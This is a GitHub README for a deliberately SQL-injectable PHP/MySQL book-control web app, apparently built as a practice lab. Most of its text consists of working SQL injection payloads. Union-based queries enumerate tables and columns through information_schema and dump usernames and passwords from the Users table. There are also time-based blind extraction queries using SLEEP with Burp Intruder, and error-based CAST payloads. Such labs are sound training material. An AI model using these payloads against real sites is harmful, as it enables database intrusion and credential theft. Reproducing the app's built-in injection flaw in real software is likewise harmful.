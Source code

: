 # vulnerable-to-sqli
I developed a book control web application with php language. This application I developed using mysql is vulnerable to sql injection types. There are also blocked php codes against sql vulnerability. 

![image](https://github.com/MeryemDalgali/vulnerable-to-sqli/assets/123389001/558074a1-862b-417d-9541-79461eab338c)

I have attached the detection and exploitation of vulnerabilities as screen photos.

# UNION-BASED SQLI
![image](https://github.com/MeryemDalgali/vulnerable-to-sqli/assets/123389001/73240dc8-8851-4ae3-93a2-802473689421)

exploitation:

![image](https://github.com/MeryemDalgali/vulnerable-to-sqli/assets/123389001/38461f5c-5ca3-4e70-8c5b-eb15991c32a5)

Payload to get table names:
1' UNION SELECT 1,table_name,3,4,5,6 FROM information_schema.tables WHERE table_schema=database()-- -

![image](https://github.com/MeryemDalgali/vulnerable-to-sqli/assets/123389001/39745bb9-7d80-48cf-a712-80ac2dbb5e45)

Payload to get column names from Users table:
1' UNION SELECT 1,column_name,3,4,5,6 FROM information_schema.columns WHERE table_name='Users'-- -

Get credentials:
1' UNION SELECT 1,UserName,3,4,Password,6 FROM Users-- -

![image](https://github.com/MeryemDalgali/vulnerable-to-sqli/assets/123389001/112d7862-0cc4-4a0a-ac13-2af79b0f97fb)

# BOOLEAN-BASED SQLI 
![image](https://github.com/MeryemDalgali/vulnerable-to-sqli/assets/123389001/54aafe13-0a3b-4fe2-9b06-911adc99e9f8)

# TIME-BASED SQLI 
![image](https://github.com/MeryemDalgali/vulnerable-to-sqli/assets/123389001/08a5cb0e-f216-43ad-8ff8-1ca389ad56ef)

Manipulate search query
Vulnerability detection with :
/search.php?search_query=Ethical Hacking Handbook' AND sleep(5) -- -

![image](https://github.com/MeryemDalgali/vulnerable-to-sqli/assets/123389001/1b117164-ff3a-4df5-96de-5c8402df0b84)

I got 5 second delay as shown in the tool
According to 5 seconds of sleep, I got the first letter of the database with this payload: <br></br>
search.php?search_query=Ethical Hacking Handbook' AND IF(SUBSTRING(database(),1,1)='B',SLEEP(5),0) -- -<br></br>
Other letters can also be obtained with the intruder tool of the burp tool.For example, to find the second letter of the database:<br></br>
search.php?search_query=Ethical Hacking Handbook' AND IF(SUBSTRING(database(),2,1)='$set_ıntruder',SLEEP(5),0) -- -

# ERROR-BASED SQLI
' AND 1=CAST((SELECT 1) AS int)-- -
' AND 1=CAST((SELECT username FROM users) AS int)-- -
We got an error and gain the database name. 

![image](https://github.com/MeryemDalgali/vulnerable-to-sqli/assets/123389001/118e0659-41cb-4751-af18-492149d81ff1)


